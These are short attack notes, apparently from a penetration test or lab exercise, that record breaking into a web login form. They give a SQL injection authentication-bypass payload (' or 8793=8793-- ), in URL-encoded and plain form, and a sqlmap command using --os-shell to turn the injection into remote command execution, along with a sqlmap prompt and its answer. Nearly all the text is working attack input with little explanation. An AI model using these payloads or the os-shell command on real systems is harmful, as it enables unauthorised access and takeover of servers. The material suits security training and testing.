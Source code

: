 ____
# Login
Burp scan defined insertion points

![[Pasted image 20240918044930.png]]

```
username=test68108575'%20or%208793%3d8793--%20&password=test
```

```
test68108575' or 8793=8793-- 
```

# RCE

```bash
sqlmap -r test.txt --os-shell
```

you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n]

```
n
```

